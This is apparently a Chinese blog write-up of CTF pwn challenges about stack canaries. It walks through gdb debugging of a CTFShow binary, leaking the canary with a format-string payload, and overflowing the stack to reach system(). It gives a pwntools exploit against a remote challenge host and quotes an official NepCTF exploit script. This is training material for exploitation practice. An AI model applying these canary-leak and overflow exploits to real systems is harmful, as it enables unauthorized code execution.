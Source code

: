 ```yaml
---
title: Canary
categories: 
    - Stack
    - Canary
---
```


# canary

<!--more-->

### CTFShow04

先checksec

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020100514433593.png#pic_center)

栈不可执行
Canary打开

> canary:
用于防止栈溢出被利用的一种方法，原理是在栈的ebp下面放一个随机数，在函数返回之前会检查这个数有没有被修改，就可以检测是否发生栈溢出。

main函数：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005144542442.png#pic_center)

没有线索，跟进vuln函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005144639881.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

看到v3就是canary了
也就是下面的 [ebp-0ch]

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005145903257.png#pic_center)

在vuln函数中canary赋值给了eax
我们可以通过在这个赋值之后下一个断点，来获取canary的值
在此之前我们需要知道printf函数的地址，用来找到canary的偏移
所以要先在printf函数下面下一个断点
`b printf`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005150508325.png#pic_center)

`run`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005152146251.png#pic_center)

可以看到
printf函数的地址是 0xffffd0b0

然后在canary赋值之后下一个断点
ps：在vuln函数和main函数中都有canary的赋值

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005151100579.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005151126582.png#pic_center)

这里需要用main函数里面的（我也不知道为什么。。。
`b *0x080486C9`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005152008443.png#pic_center)

这样就找到了canary的值
之后看printf的地址，找到canary的值，然后算出偏移
`x/40wx 0xffffd0b0`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005151654295.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

发现0x0x1276e500的偏移为31，所以构造canary的值为%31$x
canary的值要靠我们的输入buf来赋值，所以要计算一下buf和v3的偏移 = (0x70-0xC) =100

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005153200798.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

最后还有 (0x8+4) = 12 个字节需要覆盖，覆盖返回地址到system函数才能取得shell

exp：

```python
from pwn import *

p =remote("111.231.70.44",28017)

p.recv()
leak_canary = "%31$x"
p.sendline(leak_canary)
canary = int(p.recv(),16)

print(hex(canary))

getshell = "a" * 100 + p32(canary) + "b" * 12 + p32(0x0804859B)

p.sendline(getshell)

p.interactive()
```




### NepCTF easystack （未解决）

2021.3.25

[参考](https://blog.csdn.net/qq_51868336/article/details/115156308?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161656332316780261939739%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161656332316780261939739&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~times_rank-2-115156308.first_rank_v2_pc_rank_v29&utm_term=NepCTF)


目前看不太懂。。。

官方WriteUp：
```py
from pwn import *
context.log_level = 'debug'
p= process("./easystack")
#p=remote("node2.hackingfor.fun",'30784')
exp = 0x30*p64(0x6cde20)
p.sendline(exp)
p.recv()
p.interactive()

```
0x30应该是0x3a。。。。。不然跑不起来，不知道这个数字怎么来的。。。





